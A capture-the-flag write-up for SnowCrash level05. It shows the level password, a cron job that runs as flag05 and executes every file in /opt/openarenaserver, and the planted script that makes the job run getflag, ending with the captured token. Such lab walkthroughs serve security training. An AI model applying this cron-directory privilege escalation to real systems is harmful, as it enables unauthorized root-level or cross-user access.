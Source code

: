 ## level05
```
level04@SnowCrash:~$ su level05 
Password: ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$
```
Try connect to `SSH` you get `You have new mail`
```
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
We understand from this script that it does a loop for every file in /opt/openarena/server/, execute their contents and then delete that file, therefore let's create a file to execute the getflag command:
```
level05@SnowCrash:~$ echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getmeflag
```
```
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
